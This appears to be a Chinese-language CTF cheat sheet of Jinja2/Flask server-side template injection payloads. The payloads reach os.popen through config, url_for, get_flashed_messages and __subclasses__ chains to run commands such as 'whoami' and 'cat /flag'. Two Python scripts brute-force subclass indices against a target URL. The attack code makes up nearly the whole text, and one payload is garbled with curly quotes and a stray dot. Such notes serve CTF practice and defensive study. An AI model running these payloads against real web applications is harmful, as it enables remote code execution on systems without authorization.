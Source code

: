 #### 通过config，调用os

```php
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

#### 通过url_for,调用os

```php
{{url_for.__globals__.os.popen('cat /flag').read()}}
```

#### 通过get_flashed_messages

返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。

```php
{{get_flashed_messages.__globals__.os.popen('cat /flag').read()}}
```

#### 在已经加载os模块的子类中直接调用os模块

```php
{{"".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen('cat /flag').read()}}
```

```
{{“”.__class__.__base__.__subclasses__()[117].__init__.__globals__[‘builtins’][‘eval’]("__import__.(‘os’).popen(‘ls’).read()")}} 
```

查找os模块脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'os.py' in str(response.content):
                print(i)
    except:
        pass
```



#### 可以加载第三方库，使用load_module加载os

_frozen_importlib.BuiltinImporter查找脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib.BuiltinImporter' in str(response.content):
                print(i)
    except:
        pass


```